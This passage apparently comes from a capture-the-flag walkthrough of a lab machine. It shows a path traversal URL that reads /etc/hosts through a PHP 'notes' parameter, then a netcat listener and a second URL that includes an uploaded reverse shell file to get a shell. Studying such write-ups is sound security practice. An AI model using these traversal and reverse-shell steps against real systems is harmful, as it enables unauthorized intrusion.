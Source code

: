 ```
http://10.10.10.43/department/manage.php?notes=/files/ninevehNotes/../../../etc/hosts
```

![image](assets/83319240-a0d66800-a20a-11ea-9da8-04b7f894716b.png)

Now that I had a way to access files I could execute the reverse shell that was uploaded earlier through phpliteadmin. I set up a netcat listener "nc -lvnp 4200" and updated the parameter to include path to /var/tmp/rshell.php

```
http://10.10.10.43/department/manage.php?notes=/files/ninevehNotes/../../../var/tmp/rshell.php
```
